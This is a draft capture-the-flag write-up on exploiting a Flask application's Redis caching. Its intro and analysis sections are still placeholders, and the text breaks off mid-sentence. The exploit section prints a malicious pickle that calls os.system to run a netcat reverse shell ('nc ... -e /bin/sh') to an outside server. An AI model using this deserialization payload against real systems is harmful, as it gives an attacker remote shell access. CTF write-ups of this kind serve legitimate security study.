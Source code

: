 ```yaml
---
title: "CTF Flask Caching"
date: 2020-12-03T08:14:05-05:00
tags: ["CTF", "UFSIT", "python", "redis", "flask"]
---
```


## Introduction

INTRO HERE

## Code Analysis and Observed Behavior of Application

TALK ABOUT FLASK APP, REDIS, AND DEFAULT BEHAVIOR OF CACHING FUNCTION RESPONSES

## The Exploit

Funnily enough, after trying multiple different nonfunctional payloads, our answer was found
within the OFFICIAL python3 documentation on pickles. [This link](https://docs.python.org/3/library/pickle.html#restricting-globals)
shows how a pretty compact looking pickle lets us import and execute shellcode using the os module.
Below is a form of this pickle that has been crafted to connect to a DO Droplet:

`pickle`

```text
!cos                                                                                                                      
system                                                                                                                    
(S'nc REDACTED-IP 6969 -e /bin/sh'
tR.%  
```

One question that we had while crafting this pickle was whether or not the challenge was intended to
be solved in such a way and if there was a better approach than this one. Nevertheless, a shell is
always a nice thing to have :)

## Gaining Shell Access and Finding the Flag

Using the pickle detailed above